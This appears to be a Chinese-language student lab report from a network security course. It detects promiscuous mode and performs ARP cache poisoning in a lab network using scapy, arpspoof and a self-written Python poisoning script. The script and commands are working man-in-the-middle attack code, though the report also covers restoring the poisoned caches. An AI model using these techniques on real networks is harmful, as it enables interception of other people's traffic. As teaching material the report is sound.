

# 网络监听实验
## 实验环境
- 网络拓扑如下图

| 名称 | IP地址 | MAC地址 |
|--|--|--|
| 受害者 | 172.16.111.109 | 08:00:27:87:0E:91 |
| 网关 | 172.16.111.1 | 08:00:27:49:73:be |
| 攻击者 | 172.16.111.130 | 08:00:27:8f:fe:8b |

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

```bash
# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.109")
```

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.109")
```

- 比对两次结果，发现在受害者主机开启混杂模式后，攻击者主机检测到了受害者混杂模式的开启
```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```


## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
print(gw_mac)
```

```py
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.109
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.109", hwdst="08:00:27:8f:fe:8b")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:49:73:be", pdst="172.16.111.109", hwdst="08:00:27:87:0E:91")
sendp(restorepkt1, count=100, inter=0.2)

```

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


## 实验三：使用自动化工具完成ARP投毒劫持实验
使用arpspoof工具完成
```bash
sudo arpspoof -i eth1 -t 172.16.111.109<想要劫持的目标主机> 172.16.111.1<想要伪装成的主机ip>
```


## 实验四：基于scapy编写ARP投毒劫持工具

```py
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from scapy.all import ARP, Ether, get_if_hwaddr, sendp,srp
from scapy.layers.l2 import getmacbyip

def get_mac(target_ip):
	'''
	use getmacbyip function to get target Ip's MAC address
	'''
	target_mac = getmacbyip(target_ip)
	if target_mac is not None:
		return target_mac
	else:
		print("无法获取IP为：%s 主机的MAC地址，请检查目标IP是否存活"%target_ip)
		
def create_arp_target(src_ip,src_mac,target_ip,target_mac):
	'''
    生成ARP数据包，伪造网关欺骗目标计算机
    src_mac:本机的MAC地址，充当中间人
    target_mac:目标计算机的MAC
    src_ip:要伪装的IP，将发往网关的数据指向本机（中间人），形成ARP攻击
    target_ip:目标计算机的IP
    op=is-at,表示ARP响应
	'''
	pkt = Ether()/ARP(op=2,psrc=src_ip,hwsrc=src_mac,pdst=target_ip,hwdst=target_mac)
	return pkt
	
def create_arp_gateway(gateway_ip):

	pkt = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst=gateway_ip)
	return pkt
	
def main():
	src_ip = "172.16.111.109"
	interface="eth0"
	src_mac = get_if_hwaddr(interface)
	print('本机IP地址是：', src_ip)
	print('本机MAC地址是:',src_mac)
	target_ip="172.16.111.121"
	target_mac=get_mac(target_ip)
	print("目标计算机IP地址是：", target_ip)
	print("目标计算机MAC地址是：", target_mac)
	gateway_ip = "172.16.111.1"
	arpbroadcast = create_arp_gateway(gateway_ip)
	# 发送这个 ARP 广播请求
	recved = srp(arpbroadcast, timeout=2)
	# 网关 MAC 地址如下
	gateway_mac = recved[0][0][1].hwsrc
	print("网关MAC地址是：", gateway_mac)
	arpspoofed = create_arp_target(gateway_ip,src_mac,target_ip,src_mac)
	sendp(arpspoofed)
	choice = input("是否恢复受害者主机ARP缓存(y/n):")
	if choice == 'y':
		restorepkt1=create_arp_target(gateway_ip,gateway_mac,target_ip,target_mac)
		sendp(restorepkt1,count=10,inter=0.1)
		restorepkt2=create_arp_target(target_ip,target_mac,gateway_ip,gateway_mac)
		sendp(restorepkt2,count=10,inter=0.1)
		
	
if __name__=='__main__':
	main()

```
## 参考资料
- [课程 · 实验四](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html#)
- [2021-ns-public-EddieXu1125/chap0x04/](https://github.com/CUCCS/2021-ns-public-EddieXu1125/tree/chap0x04/chap0x04)